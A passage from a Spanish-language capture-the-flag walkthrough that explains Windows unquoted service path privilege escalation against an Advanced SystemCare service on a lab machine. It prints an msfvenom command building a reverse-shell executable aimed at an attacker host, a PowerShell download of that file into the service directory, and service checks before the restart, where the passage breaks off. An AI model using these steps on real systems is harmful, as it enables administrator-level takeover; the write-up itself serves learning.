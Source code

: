 	C:\Program.exe
	
Es decir, se detiene en el primer espacio y añade la terminación **.exe**. Si no encuentra ese ejecutable, entonces seguirá buscando, ahora en la ruta:

	C:\Program Files\Main.exe
	
Y así sucesivamente. Creo que se entiende la idea, ahora, ¿cómo me aprovecho de esto para comprometer el equipo? Todos los servicios corren bajo el usuario **Administrator**, por lo tanto, si se cumplen los siguientes requisitos:

	1. Tener permisos de escritura en algún directorio del path donde se ubica el ejecutable del servicio
	2. Tener permisos para reiniciar dicho servicio
	
Entonces podemos colocar un ejecutable malicioso que ejecute alguna acción (como una reverse shell) y este será ejecutado por el usuario **Administrator** cuando nosotros reiniciemos el servicio.

Con esto en mente, entonces, enfoquémonos nuevamente en la máquina que estamos resolviendo. La ruta no cuenta con comillas, por lo que es vulnerable.

	C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
	
La primera ruta que intentaríamos es la siguiente:

	C:\Program.exe
	
Sin embargo, pocas veces se tienen permisos de escritura en el directorio **C:**, así que movámonos a la siguiente posibilidad:

	C:\Program Files (x86)\IObit\Advanced.exe
	
En este caso, sí tenemos permisos de escritura dentro del directorio **IObit**, por lo que podemos colocar un ejecutable llamado **Advanced.exe** aquí. Primero, lo creamos con ayuda de msfvenom:

	msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.188.83 LPORT=443 -f exe -o Advanced.exe
	
![12]

Con el ejecutable ya listo, ahora debemos moverlo a la máquina, específicamente el directorio **IObit**. Para ello, volvemos a iniciar un servidor HTTP con **Python** y ejecutamos la instrucción **Invoke-WebRequest** de PowerShell:

	iwr -uri "http://10.10.188.83:8080/Advanced.exe" -outfile "Advanced.exe"
	
![13]

Ahora revisamos el servicio para cerciorarnos de que esté corriendo:

	get-service AdvancedSystemCareService9
	
Recuerda que estamos en una termninal de **PowerShell**, para hacerlo en una **CMD** deberíamos ejecutar:

	sc query AdvancedSystemCareService9
	
![14]

Ahora solo resta reiniciar el servicio. Para ello debemos detenerlo e inmediatamente después volver a iniciarlo. Esto se debe hacer ya con una consola en segundo plano escuchando con **netcat** para recibir la reverse shell:
